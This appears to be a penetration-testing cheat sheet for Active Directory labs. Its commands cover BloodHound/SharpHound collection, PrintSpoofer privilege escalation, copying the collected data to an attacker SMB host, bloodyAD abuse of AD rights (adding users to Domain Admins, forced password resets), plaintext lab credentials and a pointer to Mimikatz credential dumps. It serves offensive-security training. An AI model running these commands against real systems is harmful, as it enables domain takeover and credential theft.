

# Bloodhound

## Latest SharpHound
```bash
wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.ps1
```
```bash
## Run it
#Powershell
powershell -ep bypass

# Load Module
Import-Module .\SharpHound.ps1

# BloodHound
Invoke-BloodHound -CollectionMethod All
----------------------
# Windows Based (SharpHound.exe)
# Run it
.\SharpHound.exe -c All
```

## Running SharpHound with PrintSpoofer Abuse
```bash
upload SharpHound.exe

#Unable to run due to restriction on running files. Abuse printspoofer.
.\PrintSpoofer64.exe -i -c "cmd /c C:\Users\eric.wallows\Documents\SharpHound.exe -c All"

#NOTE: Printspoofer runs as System32, so the file will be saved there since we did not specify an output.
# Find file
ls C:\Windows\System32\*.zip

# Copy it over to Documents folder
copy C:\Windows\System32\20260407171325_BloodHound.zip C:\Users\eric.wallows\Documents\BloodHound.zip

# Download
download BloodHound.zip
```
## Transfer File to Kali with Impacket SMB Server
```bash
cd ~/impacket-latest/examples

# Run (ON KALI)
python3 smbserver.py -smb2support test /home/kali/oscp

# Copy File (ON TARGET MACHINE)
copy 20260318174600_BloodHound.zip \\192.168.45.227\test
```

## Start Bloodhound
```bash
sudo neo4j start

# Then Bloodhound
bloodhound
```


## NXC Bloodhound
```bash
nxc ldap 192.168.158.158 -u 'o.foller' -p 'EarlyMorningFootball777' --bloodhound --collection All --dns-server <DC IP>
# Example Result:
# Done in 0M 14S
# Compressing output into /home/kali/.nxc/logs/<filename>_bloodhound.zip
# What to do next? Import the .zip from /home/kali/.nxc/logs/ into Bloodhound.
```

## BloodyAD

```bash
cd ~/tools

# BloodyAD - Abuse AD privileges discovered via Bloodhound
# NOTE: Run from your bloodyAD directory or specify the path

# GenericAll over a group -> Add yourself or another user to that group
python3 bloodyAD --host 192.168.x.158 -d oscp.example -u 'o.foller' -p 'EarlyMorningFootball777' add groupMember "SRV22 Administrators" o.foller

# GenericAll over a user -> Force change their password
python3 bloodyAD --host 192.168.x.158 -d oscp.example -u 'o.foller' -p 'EarlyMorningFootball777' set password 'j.smith' 'NewPassword123!'

# GenericWrite over a user -> Add them to a group
python3 bloodyAD --host 192.168.x.158 -d oscp.example -u 'o.foller' -p 'EarlyMorningFootball777' add groupMember "Domain Admins" j.smith

# WriteDACL over a user or group -> Grant yourself GenericAll first, then abuse it
python3 bloodyAD --host 192.168.x.158 -d oscp.example -u 'o.foller' -p 'EarlyMorningFootball777' add genericAll 'j.smith'

# ForceChangePassword -> Reset a user's password without knowing the current one
python3 bloodyAD --host 192.168.x.158 -d oscp.example -u 'o.foller' -p 'EarlyMorningFootball777' set password 'j.smith' 'NewPassword123!'

# Verify group membership was added successfully
python3 bloodyAD --host 192.168.x.158 -d oscp.example -u 'o.foller' -p 'EarlyMorningFootball777' get groupMember "SRV22 Administrators"
# Example Result:
# [+] l.evgeny added to SRV22 Administrators
# What to do next? Authenticate with the new privileges:
nxc smb 192.168.x.158 -u 'o.foller' -p 'EarlyMorningFootball777'
# Look for (Pwn3d!) now that you are in the Administrators group

# Administrator now? Run Mimikatz. Dump SYSTEM/SAM.
```